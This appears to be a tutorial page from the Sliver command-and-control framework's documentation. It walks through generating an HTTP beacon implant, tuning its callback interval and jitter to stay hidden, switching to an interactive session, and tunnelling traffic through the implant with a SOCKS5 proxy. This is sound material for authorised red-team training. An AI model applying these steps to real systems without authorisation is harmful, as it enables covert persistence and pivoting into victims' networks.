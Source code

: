 Sliver implants support two types of connections, sessions and beacons.

Sessions use long-poling connections, which means they use a single TCP connection which is constantly open. Beacons on the other hand call back periodically, and will sleep when not active which can help keep their presence hidden.

Typically during an engagement you will want to deploy a beacon on the target system, and switch to a session while doing more active enumeration activities.

Let’s start with generating and deploying a beacon using `http`.

```asciinema
{"src": "/asciinema/beacon_generation.cast", "cols": "132", "rows": "14", "idleTimeLimit": 8}
```

You can see the beacon callback times either in the `info` command or using `beacons watch`.

```bash
[server] sliver > beacons watch

 ID         Name            Transport   Username          Operating System   Last Check-In   Next Check-In
========== =============== =========== ================= ================== =============== ===============
 942c647c   TIRED_GIRAFFE   http(s)     tester   darwin/amd64       52s             12s

```

Beacon callback times and jitter can be set either during generation or on the fly using the `reconfig` command.

The example below sets the callback time to 5s with a 1s jitter.

```bash
[server] sliver (TIRED_GIRAFFE) > reconfig -i 5s -j 1s

[*] Tasked beacon TIRED_GIRAFFE (b8aa6fd8)

[+] TIRED_GIRAFFE completed task b8aa6fd8

[*] Reconfigured beacon

[server] sliver (TIRED_GIRAFFE) > info

         Beacon ID: 942c647c-8409-4877-9fa2-b84a7f27ad45
              Name: TIRED_GIRAFFE
          Hostname: tester.local
              UUID: c6de1a44-016a-5fbe-b76a-da56af41316d
          Username: tester
               UID: 501
               GID: 20
               PID: 55879
                OS: darwin
           Version:
            Locale:
              Arch: amd64
         Active C2: https://127.0.0.1
    Remote Address: 127.0.0.1:51803
         Proxy URL:
          Interval: 1m0s
            Jitter: 30s
     First Contact: Wed Apr 19 01:14:21 CEST 2023 (10m30s ago)
      Last Checkin: Wed Apr 19 01:18:20 CEST 2023 (6m31s ago)
      Next Checkin: Wed Apr 19 01:19:46 CEST 2023 (5m5s ago)
```

Commands issued for beacons can be viewed using `tasks`, the task state will indicate wether the command has completed or not.  The results of previously run tasks can be viewed using `tasks fetch`.

```asciinema
{"src": "/asciinema/beacon_tasks.cast", "cols": "132", "rows": "14", "idleTimeLimit": 8}
```

Session can be spun up using the `interractive` command.

```asciinema
{"src": "/asciinema/beacon_interractive.cast", "cols": "132", "rows": "14", "idleTimeLimit": 8}
```

Because of the differences between sessions and beacons, certain commands like `upload` or `download` are slower on beacons due to the callback time. Others such as socks5 are not supported and only allowed for sessions. As a rule of thumb anything requiring higher network bandwith should be run from a session.

Let’s switch to our newly created session and spin-up a `socks5` proxy.

```bash

socks
[server] sliver (TIRED_GIRAFFE) > use

? Select a session or beacon: SESSION  131a60b9  TIRED_GIRAFFE  127.0.0.1:51969  tester.local  tester  darwin/amd64
[*] Active session TIRED_GIRAFFE (131a60b9-db4f-4913-9064-18a17a0f09ab)

[server] sliver (TIRED_GIRAFFE) > socks5 start

[*] Started SOCKS5 127.0.0.1 1081
⚠️  In-band SOCKS proxies can be a little unstable depending on protocol
```

You can then point your browser to port 1081 to tunnel traffic through the implant to your target’s local network.

Try out some of the previous commands and compare behaviour on beacons and sessions. Once you are done, you should remember to close your session using the `close` command.
